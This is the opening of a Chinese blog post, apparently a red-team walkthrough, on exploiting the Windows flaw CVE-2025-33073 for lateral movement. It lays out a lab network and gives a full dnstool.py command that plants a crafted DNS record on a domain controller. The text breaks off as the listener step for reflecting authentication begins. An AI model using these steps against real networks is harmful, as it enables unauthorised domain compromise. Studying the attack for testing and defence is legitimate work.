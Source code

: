 #  内网横行：CVE-2025-33073 实战场景利用全流程指南 | 附利用工具  
原创 薛定的饿猫  饿猫的小黑屋   2025-06-24 07:15  
  
**前言**  
****  
  
  
参考资料  
  
在上一篇文章中，对   
CVE-2025-33073  
 的漏洞原理进行了比较深入的分析，同时在靶场环境中进行了漏洞复现。出于漏洞原理和红队行动规范的原因， CVE-2025-33073 在实际利用的过程中比靶场会更加麻烦一些。本文将基于实战利用的场景对 CVE-2025-33073 进行全流程的攻击梳理。  
1. 靶场复现中存在的 Windows 端口占用问题在实战中没有太大影响，因为不可避免的需要走隧道进行利用，那么外网的 VPS 机器直接选择 Linux 即可。如果确实有需要用到 Windows 进行利用的情况，按照章节   
0x04  
 中不出网的部分进行转发即可。为了帮助小白更好的理解，文章最后也会对其单独进行讲解。  
  
1. 为了使流程更加清晰，文中按照步骤搭建不同的隧道，实战情况下可以使用 frp 等能转发 SMB 的工具进行转发，简化利用流程并减少文件上传的数量。  
  
如果想深入了解此漏洞，建议阅读前文。  
> 内网横行：CVE-2025-33073漏洞分析与攻击复现  
  
> 薛定的饿猫，公众号：饿猫的小黑屋[内网横行：CVE-2025-33073漏洞分析与攻击复现](http://mp.weixin.qq.com/s?__biz=Mzg4NDU4OTQ1NA==&mid=2247484712&idx=1&sn=02ff86815b2cb114cbfcea520ff2db51&chksm=cfb493c9f8c31adfec2590226974b21f93d10095abfd157d19e38dd2c460a04e7a8301931b90#rd)  
  
  
  
**0x01 环境准备**  
****  
  
  
参考资料  
  
```
域控DC Windows server 2022：192.168.214.134域内目标主机 Windows server 2022：192.168.214.135 外网主机 Windows server 2022  192.168.214.136  192.168.56.130(模拟外网IP) 攻击机 Windows 11：192.168.56.131公网VPS Kali Linux：192.168.56.129
```  
  
  
0x02 最简攻击流程梳理  
  
  
参考资料  
  
先回顾一下正常攻击的流程，主要分为三个步骤：  
  
1.   
向 DNS 服务器（域控）添加 DNS 记录。  
  
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.130 --action modify 192.168.214.134
```  
  
  
2.   
开启监听，用于接收目标服务器发起的认证请求并反射回给目标服务器  
。  
  